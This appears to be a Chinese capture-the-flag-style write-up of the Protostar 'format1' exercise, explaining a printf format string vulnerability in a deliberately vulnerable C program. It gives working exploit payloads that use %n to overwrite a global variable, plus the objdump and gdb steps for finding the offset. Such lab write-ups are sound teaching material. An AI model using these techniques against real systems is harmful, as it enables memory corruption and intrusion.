 # format1

## （一） 题目：

源代码：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int target;

void vuln\(char \*string\)

{

printf\(string\);

if\(target\) {

```
printf\("you have modified the target :\)\n"\);
```

}

}

int main\(int argc, char \*\*argv\)

{

vuln\(argv\[1\]\);

}

## （二）解题过程：

本题的思路也比较简单，通过读取源码，主函数调用vuln函数，vuln函数通过传入的参数控制，传的参数就是字符串，通过传入的字符串覆盖target全局变量位置。

格式化字符串漏洞其实是一种很基本的漏洞类型,成因是printf\(\)函数的参数只给定了需要打印的str,比如这样

printf\(str\);

那么格式化字符串本身,也就是我们的%d,%s,%x,就变成用户可控的情况了。

这里要注意的就是,printf其实算是一个接受变参的函数,格式化字符串之后的

比如

printf\("%x%x",a,b\);

但是这个时候,我们把b去掉 只保留a,却发现仍然打印出了一个数值。

很明显,printf的原理是直接用esp做基准去取参数,所以说这也是比较明显的一个问题了,我们完全可以任意读取其他地址的内存。

而且%n更是提供了写入功能,以参数对应的数值为指针,写入已经被打印出的字符数量。一个比较完整的介绍是。

%\[第几个参数\]$\[对齐格式,比如010是用0补齐,10长度\]x

因此,我们可以通过向第n个参数写入一个地址的方法,再把x换成n,就能写入了。

关键点：

1） 获取target的位置

2）获取当前栈顶到target的距离 多少字节 （或者多少字）

3） 格式字符串

printf\("%s",string\) 和 printf\(string\)是非常不一样的，后者存在漏洞，在构造string时候可以控制，比如后面跟着%x时候就可以输出堆栈的内容。

思路验证：

1\) 定位target的地址有两种方法

用objdump -t ./format1 \| grep target

这样可以找到程序 .bss段里 target的地址

![](/png/52.png)

另外一种方法用gdb找target地址

![](/png/53.png)

2）确定存放target地址的地方和此时的栈顶esp距离

gdb调试，在vuln下断点，代入参数 python的方法

![](/png/54.png)

如上图，此时target数值的地方在0xbffffe89处

0xbffffe89-0xbffffc70= 537

537/4=134\(word\)+1

从esp地方填充137个字+1 ,就到了target地方。

python -c 'print "\x37\x96\x04\x08A%134$n"'

注意在调试过程中会出现地址变化的情况，执行一次成功后，如果还想再调试，最好重启机器。

./format1 \`python -c 'print "\x38\x96\x04\x08AAA%134$x"'\`

ref:

[http://www.atomsec.org/iot/tew654-命令执行漏洞/](http://www.atomsec.org/iot/tew654-命令执行漏洞/)

[http://sh3llc0d3r.com/protostar-exploit-exercises-format1/](http://sh3llc0d3r.com/protostar-exploit-exercises-format1/)

[https://zhuanlan.zhihu.com/p/23197261](https://zhuanlan.zhihu.com/p/23197261)

